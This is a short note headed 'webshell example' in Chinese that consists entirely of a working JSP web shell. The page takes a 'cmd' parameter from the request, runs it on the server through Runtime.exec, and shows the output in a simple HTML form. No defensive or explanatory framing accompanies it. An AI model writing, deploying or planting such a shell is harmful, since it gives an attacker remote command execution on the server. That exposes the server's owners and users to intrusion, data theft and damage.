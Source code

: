 - # webshell示例
	- ```jsp
	  <%@ page import="java.io.*" %>
	  <%
	  String cmd = request.getParameter("cmd");
	  String output = "";
	  if(cmd != null) {
	      String s = null;
	      try {
	          Process p = Runtime.getRuntime().exec(cmd);
	          BufferedReader stdInput = new BufferedReader(new 
	  InputStreamReader(p.getInputStream()));
	          BufferedReader stdError = new BufferedReader(new 
	  InputStreamReader(p.getErrorStream()));
	          while ((s = stdInput.readLine()) != null) {
	              output += s+"\n";
	          }
	          while ((s = stdError.readLine()) != null) {
	              output += s+"\n";
	          }
	      }
	      catch (IOException e) {
	          e.printStackTrace();
	      }
	  }
	  %>
	  <html>
	  <head>
	  <title>JSP Webshell</title>
	  </head>
	  <body>
	  <form method="GET" action="<%=request.getRequestURI()%>">
	  <input type="text" name="cmd" size="80">
	  <input type="submit" value="Execute">
	  </form>
	  <pre>
	  <%=output %>
	  </pre>
	  </body>
	  </html>
	  
	  ```